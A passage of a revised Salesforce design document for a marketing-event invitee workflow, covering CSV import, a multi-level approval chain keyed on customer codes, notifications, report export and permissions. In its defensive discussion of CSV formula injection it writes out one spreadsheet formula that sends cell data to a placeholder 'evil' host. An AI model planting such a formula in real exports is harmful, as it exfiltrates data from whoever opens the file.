**Design note — status lives on the invitee, not the event.** The event-level "Draft → Pending Approval → Approved → Exported" shown in the Screen-2 sketch is a simplification. With multiple AMs submitting independent batches, a single event-level state machine would deadlock (one AM's pending batch would block another's). The Event page instead shows roll-up counts (e.g. "23 invitees · 12 pending · 9 approved · 2 rejected"). `Status__c` on `Event_Invitee__c` is the real state machine and is system-managed (field-level security: read-only for AMs; mutated only by Apex).

~~**Snapshot rationale:** `Account_Owner__c` is copied at submit time so an ownership change mid-approval doesn't silently reroute pending items.~~ ★R5 **The field is deleted; the principle it protected is not.** `Approver__c` is still resolved once at submit time and frozen, so an org-chart change mid-approval cannot reroute an item somebody is already looking at. Same guarantee, one field instead of two, because there is only one thing left to freeze.

### ★R5 Approval routing — one rung

R3 built a three-rung ladder because a Lead has no Account. R5 removes both of the
things the ladder climbed past:

| # | R3 condition | R5 |
|---|---|---|
| 1 | `Contact__c` set → `Contact.Account.OwnerId` | Gone — an attendee has no Account |
| 2 | `Lead__c` set and `Lead.OwnerId` ≠ submitter → `Lead.OwnerId` | Gone — an attendee has no Lead |
| 3 | otherwise → `Submitter.ManagerId` | **The whole rule** |

What is left is what requirement.md asked for in the first place — *"送出給 Account Owner
(Salesforce內定義的角色, 一般是AM的manager/director)"*. Account Owner was always a proxy
for "the AM's manager"; R3 made the real rule explicit as a fallback, and R5 finds that the
fallback was the rule.

**The self-approval exclusion disappears with the rung that needed it, not by being
relaxed.** R3's subtle bug was that "the Lead Owner approves" degenerated into "the AM
approves their own submission" whenever the AM owned the Lead, which was usually. There is
no owner-based routing left to degenerate, so a submitter can never be their own approver
unless somebody makes a user their own manager.

**Resolution can still fail, and now it is the *only* way it can fail.** A user with no
Manager resolves to nobody. That is caught rather than tolerated, in two places: the submit
refuses up front with a named error and leaves everything in Draft, and the
`Approver_Required_When_Pending` validation rule forbids the state at the database. What
used to be an edge case is now the single failure mode, so it matters more than it did.

**What this gives up:** the Account Owner — the person who actually holds the customer
relationship — no longer sees invitees to their own customers. In R3 that was the primary
control; in R5 nobody outside the submitter's reporting line reviews anything. Whether that
is acceptable depends on what the approval is *for*. If it is "does this person belong at
our event?", a manager can answer it. If it is "is it appropriate to invite **my** customer?",
this revision removed the only person who could answer, and the recovery is a second
approval step keyed off something other than the attendee — because the attendee no longer
knows whose customer they are. **Open Question 15.**

### ★R7 Approval routing — a chain, not a rung

**This answers Open Question 15, and it answers it with the key R5 said would be needed.**
The paragraph above ends "the recovery is a second approval step keyed off something other
than the attendee — because the attendee no longer knows whose customer they are." The
business has that key: every imported row carries a **customer company code, `cust_cd`**, and
a table maps it to the AM who owns that customer, and onward up to the regional head. So the
attendee *can* know whose customer they are, via a code this project stores rather than an
Account it must not touch — and premise 7 survives untouched.

The requirement is now: **AM approves, then the regional head approves, and more levels are
expected later.** Everyone in the chain must agree.

#### The routing basis

~~`cust_cd` arrives in the CSV and lands on `Event_Attendee__c.Cust_Cd__c`, surfaced on the
junction as `Invitee_Cust_Cd__c`.~~ ★R8 **Corrected on both counts, and the field is already
built.** It is `Event_Invitee__c.Cust_Cd__c`, a snapshot rather than a formula, and it does not
arrive in the CSV at all — it is read from the Account behind the invitee's Contact link when
the invitee is added.

The placement matters more than it looks. A customer code follows the *employer*, so holding it
on the person means it is quietly wrong from the day they change jobs — and the approval would
route to the previous customer's chain without anything looking broken. On the invitee it is
frozen against the invitation it belongs to.

It is still a **code, not a relationship**, in the way that counts for R7: the chain lookup
compares a string against `Approval_Route__c.Cust_Cd__c` and dereferences nothing at approval
time. What did change is R5's "reads and writes one object" property — R8 reads Account to take
the snapshot. It still writes only its own objects.

Consequence worth stating: a row whose `cust_cd` is blank or unmapped has no chain, and
therefore cannot be submitted. Under R5 anyone could be invited and the submitter's manager
approved them; under R7 an attendee with no customer code is a guest nobody is defined to
approve. Whether such guests exist — professors, press, the people who were Leads two
revisions ago — is **Open Question 21**, and the design refuses rather than guesses: see
*Failure is refused, not routed around* below.

#### The table: tall, not wide

```
★R7  Approval_Route__c            (custom object; the chain, maintained by the business)
  Cust_Cd__c        (Text, required — the customer company code)
  Level__c          (Number, required — 1, 2, 3 …; 1 is the AM, the highest is the regional head)
  Approver__c       (Lookup → User, required)
  Active__c         (Checkbox, default true)
  Unique_Key__c     (Text, unique external ID = Cust_Cd__c + '|' + Level__c)
```

**One row per (customer code × level) is the whole point.** The obvious alternative — one row
per `cust_cd` with an `AM__c` column and a `Regional_Head__c` column — reads better and fails
the actual requirement: *"日後還可能有更多階層"*. A wide table buys a new level with a new
field, a new approval step, a new deploy and a code change. A tall table buys it with **rows**,
which is a thing the business can do to itself on a Tuesday. Given that "more levels later" is
stated up front rather than speculated, that is the requirement talking.

Custom object rather than Custom Metadata Type, chosen deliberately: this table names *people*,
and people leave, move region and go on sabbatical. That is operational data with a maintenance
cadence, not configuration — it wants an app screen, a report and a sharing model, not a deploy
pipeline. The cost is one SOQL per submit and a permission set entry, both trivial.

#### The approval process: pre-provisioned steps, each gated on its own field

`Approver__c` becomes `Approver_1__c … Approver_N__c`, and `Invitee_Approval` gains one step
per field:

```
Step N:  assignedApprover  = relatedUserField Approver_N__c
         entryCriteria     = NOT(ISBLANK(Approver_N__c))
         ifCriteriaNotMet  = ApproveRecord      ← skip this step, carry on
         rejectBehavior    = RejectRequest      ← any level's rejection ends it
```

**`ifCriteriaNotMet = ApproveRecord` is the load-bearing line**, and the process already uses
it (vacuously, having no criteria today). It means *skip*, not *approve the record* — a step
whose approver field is blank is passed over and the next step runs. So the process can ship
with more steps than the business currently uses: a three-level customer stamps
`Approver_1..3__c` and sails through steps 4 and 5 untouched.

That is what makes "more levels later" cheap. Adding a level costs **rows in
`Approval_Route__c`** until the pre-provisioned steps run out; only then does it cost metadata.
Pre-provisioning five when two are needed is the sensible starting point. *Verify in the org
before choosing the number:* Salesforce caps steps per approval process, and the cap is worth
reading rather than remembering.

#### Resolution stays in Apex, at submit time, frozen

`submitMyInvitees` already resolves an approver and freezes it. R7 changes what it resolves,
not when or why:

1. collect the distinct `cust_cd` values across the batch;
2. one query against `Approval_Route__c` for those codes, `Active__c = true`, ordered by
   `Level__c`;
3. stamp `Approver_1__c …` per invitee in level order, compacting gaps so an inactive level 2
   does not leave a hole the step gating would skip *and* renumber inconsistently;
4. `Approval.process(..., true)` exactly as now.

The freeze rationale is unchanged and matters more with a chain than it did with a rung: a
reorganisation halfway up a four-level approval must not reroute an item somebody is already
looking at. The chain that was in force when the batch was submitted is the chain that decides
it.

#### Failure is refused, not routed around

The existing posture — *all-or-nothing, with a named error, nothing submitted* — extends
straight to the chain. A batch is refused if any invitee has a blank `cust_cd`, a `cust_cd`
with no active route, or a route naming an inactive user. The alternative, "fall back to the
submitter's manager when there is no route", is explicitly rejected: it converts a data-quality
problem into a silently weaker approval, which is the failure mode the whole workflow exists to
prevent. `Approver_Required_When_Pending` widens to cover `Approver_1__c`, unchanged in intent.

#### What this costs — read this part before building

**1 · The notification design breaks, and it is not obvious.** Today approvers set *Receive
Approval Request Emails = Never* and hear once, from
`EventNotificationService.notifyApproversOfSubmission`, at submit time (design.md's Option 1).
That works because there is exactly one approver and they are involved immediately. With a
chain, **levels 2..N are not involved at submit time and would therefore never be told
anything** — the regional head's items would appear in their Approvals list silently, and the
batch would sit there. Two repairs:

- **Fire the aggregate on step entry.** Each approval step carries Approval Actions; a step-entry
  action invoking the existing service tells level *n* when level *n−1* finishes. Keeps today's
  one-email-per-approver inbox behaviour, and `notifyApproversOfSubmission` already groups by
  distinct approver, so it needs a caller rather than a rewrite. **Recommended.**
- **Turn per-request emails back on** (Option 2), accepting one email per invitee per level —
  the noise the original design was written to avoid, now multiplied by the chain length.

**2 · `Pending_Count__c` stops meaning "waiting on one person".** It becomes "somewhere in a
chain", which is a different question and a less useful roll-up. A `Current_Level__c` on the
invitee, stamped by each step's entry action, restores the answer cheaply.

**3 · Time in flight multiplies.** A four-level chain needs four people to act before a single
guest is confirmed; the completion notice an AM waits on is now gated on the slowest chain in
their batch. Nothing in the design fixes that — it is what "都要同意" costs, and it is worth
saying out loud to whoever asked for four levels.

**4 · The completion notification needs no change at all.** `Status__c` becomes Approved only
on *final* approval, and `Invitee_Decision_Completion` fires on that change. The one piece of
custom notification code survives the chain untouched, which is a reasonable sign the boundary
it sits on was drawn in the right place.

#### Rejected alternatives

| Alternative | Why not |
|---|---|
| **Custom chain engine** — `Level__c` counter, Apex re-resolves and re-submits after each approval | Rebuilds what an approval process does, and R3 deleted a hand-built approval console for exactly this reason. Also fragments the audit trail into one ProcessInstance per level, and hands us record-locking to manage by hand |
| **Wide `Approval_Route__c`** — `AM__c`, `Regional_Head__c` columns | Reads better, but every new level is a deploy. Loses on the one requirement stated in advance |
| **Walk `User.ManagerId` upward from the AM** until a "regional head" marker | Elegant, zero maintenance, and wrong whenever the approval chain is not the HR reporting line — which is most orgs. Also needs a stop condition, which is another field on User, an object this project does not own |
| **Flow Orchestration** | Purpose-built for multi-user sequential work, and genuinely the modern answer for complex chains. Rejected here on licensing and on proportion: this chain is linear and unanimous, which is the case standard approvals already handle |
| **Fall back to the submitter's manager when `cust_cd` has no route** | Turns a data gap into a quieter approval. See *Failure is refused* above |

### Screen 1 — Import External Attendee List (LWC wizard, App page)

1. **Upload**: `lightning-input type="file"` (accepting `.csv`) + `FileReader` — NOT
   `lightning-file-upload`, which uploads straight to ContentVersion and never exposes the raw
   File to JS. Parsed **client-side** with a minimal RFC 4180 CSV parser built into the LWC
   (quoted fields, `""` escapes, CR / LF / CRLF row terminators) → rows. Expected columns:
   First Name, Last Name, Email, Title, Company, Mobile (header row auto-detected,
   case-insensitive).

   Two properties of real-world CSV are handled explicitly, because unlike `.xlsx` — a zip of
   UTF-8 XML with one unambiguous reading — a CSV file does not describe its own encoding or
   delimiter:
   - **Delimiter is sniffed from the header line** (comma, semicolon or tab). Excel in most EU
     locales writes **semicolons**, because the comma is the decimal separator there; with an AM
     audience that is largely EU-based, assuming a comma would have failed on a large share of
     real files.
   - **The bytes are decoded as strict UTF-8** (`TextDecoder('utf-8', {fatal: true})` over an
     ArrayBuffer, not `readAsText`). Excel's plain "CSV" writes the local ANSI codepage, which
     decodes to U+FFFD and would silently store *Müller* as *M?ller*; failing with "re-save as
     CSV UTF-8" is the one honest option. A file that is not an attendee list at all is likewise
     rejected by name — the wizard echoes the header row it actually read instead of reporting
     "no data rows found".

   ★R5 The **Event** column R4 required is gone. An import records people; which event they
   attend is decided later, on the event, by an AM. An R4-era file still imports — its Event
   column is simply an unrecognised header now. **Title** and **Mobile** stop being dead
   weight: R4 parsed and discarded them for want of anywhere to put them that was not a
   Contact, and they now land on the attendee.

   ★R5 In-file de-duplication is by **last + first + company + email**, normalised for case
   and whitespace — deliberately identical to the server's `Unique_Key__c`, so the client and
   the server cannot disagree about how many people a file contains.

2. **Preview**: three outcomes, down from R4's five.

   | Classification | Meaning |
   |---|---|
   | **New** | Nobody with this key exists — will be created |
   | **Already known** | An attendee with this key exists — title, mobile and source file will be refreshed |
   | **Skipped** | No last name, so there is no identity to key on. Writes nothing |

   ★R5 **Ambiguous is gone, and so is `Match_Basis__c`.** Both existed because R4 matched
   against Contacts and Leads and could be uncertain which person a row meant. With nothing to
   match against there is no uncertainty to record. The manual-review download survives,
   repointed at Skipped rows — with the CSV-formula guard in `c/csvDownload` intact, because
   its input is still an untrusted uploaded file.

3. **Apply**: one `upsert ... Unique_Key__c` against `Event_Attendee__c`, and nothing else.
   No Contact, Lead or Account is created, read, updated or deleted. Re-running a file
   refreshes the attendees it names rather than duplicating them.

   ★R5 **The one new failure mode, handled rather than discovered.** Routing every row into
   typed fields means a spreadsheet's Email column — which really does contain `n/a`, `-` and
   trailing notes — now meets a typed `Email__c` field that refuses them. Failing a 500-row
   upload over one such cell would be the wrong trade, and so would silently binning the
   address. The row keeps the person, drops the unstorable address, and says so on that row in
   the preview. Oversized values are clipped to their field lengths for the same reason: a CSV
   is not obliged to respect our schema.

### Screen 2 — Create Marketing Event

Standard object create form (Lightning record page with a curated layout is sufficient for the PoC; a custom LWC wrapper is optional polish). Fields per data model; Save → navigates to the Event record page (Screen 3 lives there). Status is *not* on this form — see design note above.

### Screen 3 — Attendee Selector (LWC on the Event record page)

★R5 `c/contactSelector` becomes `c/attendeeSelector`, and its three tabs become two.

- **Add Attendees** replaces *Add Contacts* and *Add Leads*. With one kind of invitee there is
  nothing for two tabs to tell apart, and the duplicated filter / search / selection state that
  came with them goes too. Lists every `Event_Attendee__c` not already on this event, grouped
  by `Company__c` — the text, so two spellings of one organisation group separately (accepted
  for the PoC; there is no record to key on, by design). Filters: organisation picklist,
  name / email / title search. Capped at 2,000 with an explicit truncation notice.
- **Selections survive a filter change**, and the component says so when the Add count includes
  rows that are off-screen — a count silently disagreeing with the table is worse than a note.
- **Rejected invitees reappear** in the list; re-adding one resets the *existing* row (Rejected
  → Draft, timestamps and approver cleared, `Added_By__c` updated). A second row is impossible:
  `Unique_Key__c` is unique per Event+Attendee.
- **Submit My Invitees for Approval** acts on *only the current AM's Draft rows*. It stamps
  `Approver__c` (the submitter's manager) and `Submitted_At__c`, then calls the standard
  `Approval.process()`. `Status__c = 'Pending Approval'` is written by the Approval Process's
  Initial Submission Action, not by our code. A submitter with no manager is refused up front
  with a named error and nothing moves.
- **All Invitees** tab: read-only table of everyone's invitees with Status and Added By, read
  through the `Invitee_*__c` formulas. ★R5 The **Type** column is gone — every invitee is an
  attendee, so a column that always says the same word is noise.

★R5 **What Screen 3 lost:** per-AM scoping. Accounts owned or team-membership was the whole
definition of "my contacts", and there is no Account to ask. See the price table under
*Data model*.

### Screen 4 — Approval (★R3: standard Approval Process, no custom code)

The custom console was a hand-built reimplementation of a platform feature. R3 deletes
`approvalConsole` (LWC) and `ApprovalConsoleController` (Apex) and replaces them with an
**Approval Process on `Event_Invitee__c`**:

| Was (custom) | Is (standard) |
|---|---|
| SOQL for `Account_Owner__c = current user AND Status = Pending` | Approval step **assigned to the Related User Field `Approver__c`** |
| Apex writing `Status__c` / `Decided_At__c` | Initial Submission / Final Approval / Final Rejection **field updates** |
| Custom email + bell per decision | Approval **email templates**, standard |
| Custom record-page LWC on desktop and phone | Standard **Approvals** in Lightning, the Salesforce Mobile App, and the Approval History related list |
| — (did not exist) | **Record lock** while pending, and a full **ProcessInstance audit trail** — who approved what, when, with comments |
| Custom "select all → approve" | Mass approval from the **Approval Requests list view / Items to Approve** component |

**Approver assignment.** The step uses *Automatically assign to approver(s) → Related User →
`Approver__c`*. This is the whole reason `Approver__c` exists as a stored User lookup rather
than a formula: Approval Processes can only route to a User lookup field on the record.
The Lead work therefore did not just *coexist* with the standardisation pass — it is what
made the standard feature applicable at all, because "the Account Owner" was never expressible
as a field on the invitee for a Lead.

★R5 **That argument now reads oddly, and is worth keeping for it.** R3 introduced
`Approver__c` because Leads made the routing rule too complicated to express any other way.
R5 deleted the Leads, and the rule collapsed to "the submitter's manager" — which
`$User.Manager` could arguably express without a stored field at all. `Approver__c` stays
anyway, for a reason that has nothing to do with how simple the rule is: an approval process
routes to a **stored** lookup, and freezing the approver at submit time is what stops an
org-chart change mid-approval from silently rerouting an item somebody is already looking at.
The field was justified twice over; only the second justification survives.

**Entry criteria** none (submission is always explicit, from Screen 3).
**Record editability while pending:** locked — an improvement; today an AM can edit a submitted row.
**Rejection is final** (single step, no reassignment): a rejected invitee returns to the pool
and can be re-added on Screen 3, which resets it to Draft — the existing rule, unchanged.

#### ★R3 Notification volume — the one real regression, and the setting that fixes it

An Approval Process sends **one assignment email per work item**. An AM submitting 40 invitees
under one Account Owner produces 40 emails where the current design sends 1. Two configurations
were considered; **Option 1 is chosen**:

- **Option 1 (chosen) — aggregate stays, per-request emails off.** Approver users set
  *Receive Approval Request Emails = Never*; the single aggregated email + bell from
  `EventNotificationService.notifyOwnersOfSubmission` remains the notification, and the
  approver acts from the Approvals list. Preserves today's inbox experience exactly.
  **Cost:** one user-level setting per approver, and **Email Approval Response (approve by
  replying to the email) is unavailable**, because there is no email to reply to.
- **Option 2 — pure standard.** Leave approval emails on, delete the aggregate notification
  entirely, and enable **Email Approval Response** so an approver can reply "approve" from a
  phone with no app at all. Zero configuration, zero custom notification code — but a noisy
  inbox, which is the exact complaint the original design was written to avoid.

*To verify in the org before build:* the exact label/values of the user-level approval-email
setting, and that **mass approve/reject in the Lightning Approval Requests list view** behaves
acceptably for ~40 rows. If mass approval turns out to be one-at-a-time in this org's release,
Option 2's email replies become the fast path and the recommendation flips.

★R5 **The volume problem got worse, not better, and Option 1 matters more because of it.**
R3's 40 emails were spread across however many Account Owners a batch touched; R5 routes an
AM's entire batch to a single person, so all 40 land on one manager — and if several AMs
report to the same manager, their batches stack on the same inbox. Nothing about Option 1's
mechanism changes, but skipping its post-deploy step is now a worse outcome than it was, and
the aggregate notification it preserves is doing more work than before.

#### ★R3 Completion notification — why `EventNotificationService` survives

"When this AM's last Pending row for this event is decided, tell them X approved / Y rejected"
is an aggregate condition over sibling records; the original design put it in Apex precisely
because it is bulk-fragile in a record-triggered Flow. That reasoning is unchanged by R3, so:

- `EventNotificationService` is **kept** (both methods), gaining a thin `@InvocableMethod`
  wrapper for the completion path.
- A **record-triggered Flow** on `Event_Invitee__c` (after update, `Status__c` changed to
  Approved or Rejected) invokes it. The Flow is the trigger; the counting stays in Apex.

This is the honest boundary of "no code": the two places where the platform genuinely has no
declarative answer are aggregate notifications (here) and the pre-commit CSV diff (Screen 1).
Everything else in Screens 4 and 5 goes.

### Screen 5 — Export (★R3: standard Reports, no custom code)

R3 deletes `EventExportController` (355 lines), the `approvedExport` LWC and the *Approved
Exports* tab/flexipage, and replaces all of it with **one custom report type and two saved
reports**. (`c/csvDownload` stays — Screen 1's manual-review list still uses it.)

- **Custom report type** `Marketing Events with Event Invitees` (`Marketing_Event__c` →
  `Event_Invitee__c`, "with" not "with or without"). Declarative.
- **Report: "Approved Invitees — by Event"** — filter `Status = Approved`, group by Event;
  columns `Invitee_Name__c`, `Invitee_Title__c`, `Invitee_Org__c`, `Invitee_Email__c`,
  Approver, `Decided_At__c`, Added By. Replaces both the per-event button
  and the cross-event download: to get one event, filter it; to get all, don't.
  ★R5 `Invitee_Type__c` is dropped from both reports and the report type — a column that
  always reads the same word is noise, and it existed only to tell Contact rows from Lead rows.
- **Report: "My Approved Invitees"** — the same, filtered `Added By = $User.Id`, replacing
  the *Only invitees I added* toggle.

What each removed feature becomes:

| Custom feature (R2) | Standard replacement (R3) |
|---|---|
| Per-event CSV button | Report filtered to one event |
| **Download All Approved** across events | Same report, no event filter, grouped by Event |
| *Only invitees I added* toggle | Report filter `Added By = $User.Id` (or the second saved report) |
| `fromDate` / `toDate` on `Decided_At__c`, with `toLocalDayStart` GMT conversion | Report date filter on `Decided_At__c` — **evaluated in the running user's timezone by the platform**. The entire timezone-boundary problem, its 4 unit tests and the `windowLabel` echo string all disappear |
| UTF-8 BOM, CRLF joins, Safari `revokeObjectURL` timing | Report **Export → Formatted / Details Only, .xlsx or CSV with an encoding choice** |
| `rowLimit` 10 000 + `truncated` flag | Report row limits, surfaced by the platform |
| Apex `csvCell` formula-injection guard | **Nothing.** See below |
| — (did not exist) | **Report subscriptions** — schedule the approved list to arrive by email, no code |

**Two things R3 gives up here, deliberately:**

1. **The `Exported` status and `Exported_Count__c` roll-up are retired.** A report export
   cannot write back to the records it exported, so "which approved invitees have already been
   downloaded" can no longer be tracked. `Exported` is removed from the `Status__c` picklist
   and `Exported_Count__c` is deleted. The original justification for the status — "re-export
   must still return the full list" — is moot once export is a report, which is stateless and
   re-runnable by definition. **This is the single largest functional loss in R3 and the item
   most worth a second opinion at review.**
2. **CSV formula-injection sanitisation is gone from the export path.** `EventExportController.csvCell`
   prefixed `=`, `+`, `-`, `@` values with an apostrophe; the standard report exporter does not
   do this. Exported values are still attacker-influenced (a Lead's Company now comes straight
   from an uploaded CSV, which if anything *widens* the input surface). The risk moves from
   "handled by our code" to "inherent to Salesforce's own report export, org-wide" — a defensible
   place to leave it, but it is a real reduction in protection and must not be recorded as a
   no-op. The client-side mirror in `c/csvDownload` is unaffected and still guards Screen 1's
   download.

> **Superseded by R3.** The two paragraphs that stood here described the custom exporter's
> decision-date range (the `toLocalDayStart` GMT↔local conversion and the `windowLabel` echo)
> and the Approved→Exported transition with its `rowLimit` / `truncated` handling. Both are
> removed with `EventExportController`. The timezone reasoning is worth keeping in mind when
> reading the report filter: it is correct in the report *because the platform applies the
> running user's timezone to date filters*, not because the problem stopped existing. Kept in
> git history at commit `3d052aa`.

**Getting the file onto the user's machine intact** is its own small problem, handled once in the shared `c/csvDownload` module: rows are joined with CRLF (RFC 4180) and the Blob is prefixed with a UTF-8 BOM, without which desktop Excel decodes the file as the local ANSI codepage and mangles every non-ASCII name; the object URL is revoked on a later tick because revoking in the same tick as `click()` cancels the download in Safari and older Chrome. The import wizard's company-change manual-review list downloads through the same module.

**CSV formula injection.** Every exported value is data a user can set — ★R5 and after R5 that is no longer a mixture of curated org data and uploaded cells: *every* name, title, organisation and email on an invitee came out of an uploaded .csv, because that is the only way an attendee is created. The input surface is now uniformly untrusted, which makes the gap below worth re-reading rather than assuming it is unchanged. A value opening with `=`, `+`, `-`, `@` (or a tab/CR that Excel skips before them) would be *executed* when the file is opened: `=HYPERLINK("http://evil/?d="&A1,"Invoice")` exfiltrates the neighbouring row on a single click, and DDE payloads go further. `c/csvDownload` prefixes such values with an apostrophe and always quotes the result. Accepted trade-off: the apostrophe is visible in some spreadsheet/import combinations, which is tolerable because every exported column is text — no legitimate value is a negative number the guard would damage. ★R3 The Apex mirror `EventExportController.csvCell` is deleted with its class, so this guard now covers **only** Screen 1's manual-review download; the approved-invitee export inherits whatever the standard report exporter does, which is no sanitisation at all. The "two parallel implementations must stay in step" hazard is gone — replaced by a gap.

### Permissions (PoC-minimal)

Two Permission Sets: `Event_AM` (create events, import attendees, add/submit invitees, run the approved-invitee reports — grants the *Import Attendees* tab, whose API name stays `Import_Contacts` because renaming a tab churns the app and both permission sets for no functional gain) and `Event_Approver` (read events, decide invitees). `Status__c` is read-only via FLS for both; the mutating Apex runs in system mode (without `WITH USER_MODE` on those DML statements) so status transitions bypass FLS by design. ★R3 The Approval Process's field updates likewise run in system context, so the FLS-read-only status survives the move to standard approvals unchanged.

★R3 **Changes to both sets:**

- `Event_AM` — **loses** the *Approved Exports* tab and `EventExportController` (deleted); **gains** Lead Create/Read/Edit (Screen 1 creates Leads, Screen 3 lists them) and Read on the two saved reports' folder.
- `Event_Approver` — **gains** Read on `Lead` (the approval email and the Approval Requests list render the invitee's name and organisation through the `Invitee_*__c` formulas, which traverse `Lead__r`; without Lead read those columns render blank), plus Read on `Approver__c`.
- Both — `Exported` disappears from the `Status__c` picklist; `Exported_Count__c` is deleted from the layouts.

★R3 **Report visibility replaces `with sharing` as the export boundary.** The custom exporter was `with sharing`, so a download could never exceed what the user could open by hand. Reports enforce the same record-level sharing, so that property holds — but the *report definitions* now live in a folder whose sharing must be set deliberately. `Event_Invitee__c` is `ControlledByParent` under a `ReadWrite` event, which in the PoC still means everyone sees everything; the "My Approved Invitees" report's `Added By = $User.Id` filter is a convenience filter, **not** a security boundary, exactly as the old toggle was. Tightening the event's OWD remains the production lever.

★R5 **Both sets change again, and one of the changes is worth pausing on:**

- `Event_AM` — **loses** Lead Create/Read/Edit and everything to do with `Event_History__c`; **gains** Create/Read/Edit on `Event_Attendee__c`. The result is that this permission set now grants **no permission on any standard object whatsoever**. R4 could say "the import no longer needs Contact edit"; R5 can say the feature does not need a standard object at all, which is a much stronger claim and the reason it can be handed to an org that would never let an import near its customer data.
- `Event_Approver` — **loses** Read on `Lead`; **gains** Read on `Event_Attendee__c`. This is not decoration: the `Invitee_*__c` formulas traverse `Event_Attendee__r`, and without read access the name and organisation columns render blank on the exact screen the approval is made from. Same failure R3 had with Lead, on a different object.
- `Event_Attendee__c.Source_File__c`, `Imported_On__c` and `Unique_Key__c` are FLS **read-only** for both sets even though the import writes them. Apex DML does not enforce FLS unless asked to, so the import still sets them; the point is that a hand-edit cannot make `Source_File__c` a lie.

★R5 **Lead sharing stops being a surface, and attendee sharing becomes one.** Open Question 7 asked what the org's Lead OWD was, because under a Private OWD an approver could not see the Lead behind an invitee. That question is resolved by deletion — but the identical risk now lives on `Event_Attendee__c`, whose OWD this project sets itself to Public Read/Write. That is a decision made here rather than inherited, which is an improvement in one way (nothing outside the project can break it) and a widening in another: every AM can read every attendee. Tightening it is a production lever, but it cannot be tightened without giving AMs some other route to each other's attendees — see *Screen 3*.

### Deliverables / repo layout

*As originally designed. Superseded three times over by the R3, R4 and R5 deltas below — read those for what the repo actually contains.*

SFDX project in `salesforce_event_mgmt/` (force-app structure): 2 custom objects + fields, **4 LWCs** (import wizard — app page; contact selector — event record page; approval console — event record page; approved exports — app page) plus `c/csvDownload`, a JS-only bundle both download paths import so the BOM/CRLF/revoke handling lives in one place; 4 Apex controllers and 1 notification/decision service (+ tests), **1 Flow** (submit notification; completion notification lives in the Apex decision service), 2 app pages (`Import_Contacts`, `Approved_Exports` flexipages + tabs), 2 permission sets, demo seed-data script (`scripts/seed-demo-data.apex` with Western-name sample Accounts/Contacts incl. the "PoC Unassigned" bucket Account), deploy instructions in README. Screen 2 (event creation) is a standard record form with a curated layout — not an LWC.

### ★R3 Deliverables delta

**Deleted**

| Item | Lines | Replaced by |
|---|---|---|
| `classes/ApprovalConsoleController.cls` (+ test coverage in `EventWorkflowTest`) | 149 | Approval Process |
| `classes/EventExportController.cls` | 355 | Custom report type + 2 reports |
| `lwc/approvalConsole/**` | ~224 | Standard Approvals UI |
| `lwc/approvedExport/**` | ~315 | Reports |
| `flexipages/Approved_Exports` + `tabs/Approved_Exports` | — | Report folder |
| `Marketing_Event__c.Exported_Count__c`, `Status__c` value `Exported` | — | retired (see Screen 5) |
| The `PoC Unassigned` bucket Account in `scripts/seed-demo-data.apex` | — | Leads |

**Added — configuration only**

- Approval Process on `Event_Invitee__c` (`Invitee_Approval`), routed by the `Approver__c` Related User Field, plus `workflows/Event_Invitee__c` carrying its four field updates (status × 3, `Stamp_Decided_At`)
- **No approval email templates** — Option 6 was settled as Option 1, so the process sends no assignment email and `EventNotificationService` remains the notification. Choosing Option 2 later means adding a template *and* re-enabling the user-level setting; either half alone leaves approvers hearing nothing.
- Custom report type `Marketing_Events_with_Invitees`; report folder `Event Management`; reports *Approved Invitees — by Event*, *My Approved Invitees*
- Record-triggered Flow `Invitee_Decision_Completion` (fires the completion notification)
- Fields: `Lead__c`, `Approver__c`, `Invitee_Name__c`, `Invitee_Email__c`, `Invitee_Title__c`, `Invitee_Org__c`, `Invitee_Type__c`, and `Added_By_Me__c`
- Validation rules: `Invitee_Is_Contact_Xor_Lead`, `Approver_Required_When_Pending`
- Layout/flexipage updates: remove `approvalConsole` from the event record page; add the Leads and Reports tabs to the app

★R3 **`Added_By_Me__c` was not in the plan.** *My Approved Invitees* needs "Added By = the
person running the report", and a report filter cannot reference the running user for a
lookup field — only a formula can. So the toggle became a checkbox formula
(`Added_By__c = $User.Id`) that the report filters on. Same containment argument as the
`Invitee_*__c` fields: one field definition instead of a special case in a query.

**Modified — Apex**

| Class | Change | Est. |
|---|---|---|
| `InviteeSelectorController` | Lead query for the *Add Leads* tab; `Approver__c` ladder; submit calls `Approval.process()` instead of writing `Status__c`; invitee list reads the formula fields | ~+70 / −25 |
| `ContactImportController` | Unmatched Company creates a Lead instead of a bucket-Account Contact; new *Update — Lead* classification; `BUCKET_ACCOUNT_NAME` and `resolveAccounts`' bucket branch removed | ~+60 / −20 |
| `EventNotificationService` | `@InvocableMethod` wrapper on the completion path so the record-triggered Flow can call it | ~+15 |
| `EventWorkflowTest` | Console/export tests deleted; Lead-invitee and approver-ladder tests added — **including a test that a submitter who owns the Lead does not become their own approver** | rewrite |

Net: **5 Apex classes → 3**, **5 LWCs → 3**, and the state machine moves from Apex into an Approval Process.

### ★R4 Deliverables delta

**Added**

| Item | Note |
|---|---|
| Object `Event_History__c` + 10 fields | Two lookups (Contact, Lead) + 4 formulas; OWD Public Read/Write |
| Validation rule `Event_History_Is_Contact_Xor_Lead` | Exactly one parent |
| `Event_AM` permission set | Gains create/read + read-only fields on the new object. **It grants no write access to Contact at all** — worth stating because the permission set never granted Contact edit in the first place (the profile does): what changed is that the feature no longer *needs* it, so the profile grant is now removable without breaking Screen 1. |
| ~~`Contact.Events_Attended__c`~~ | **Dropped** — a roll-up cannot summarise across a lookup |

**Modified**

| File | Change | Est. |
|---|---|---|
| `ContactImportController` | `classify()` replaced by the narrowing cascade, run twice (Contacts, then Leads); `applyChanges()` reduced to a Lead insert followed by one history upsert; `resolveAccounts` and `classifyUnmatched` deleted; Contact insert/update paths deleted | ~+160 / −130 |
| `importWizard.js` / `.html` | Event column in `HEADER_MAP`; de-dup key widened; 6 stat tiles → 5; result copy; manual-review download now carries ambiguous rows and their candidates | ~+70 / −60 |
| `ContactImportControllerTest` | Rewritten: one test per rung of the cascade, the empty-narrowing rule, upsert idempotency, and the two negative assertions (no Contact touched, no Account created) | rewrite |
| `importWizard` jest suite | Classification names, tile count, Event column | ~30 lines |
| `demo-data/*.csv` + `generate-demo-csv.mjs` | Event column; a deliberate same-name pair; a moved-company row | small |

**Not shipped, deliberately**

- **No Contact or Lead page layout.** Adding the Event History related list means editing the org's own layouts, and shipping one would overwrite whatever the company already has there — damage outside this project, to people who never agreed to it. Both go in the post-deploy steps as manual actions instead (Open Question 13).
- **No roll-up count of events attended.** Not possible across a lookup; a report answers it.

### ★R4 Build order

Sequenced so the negative assertions exist before the code that could violate them.

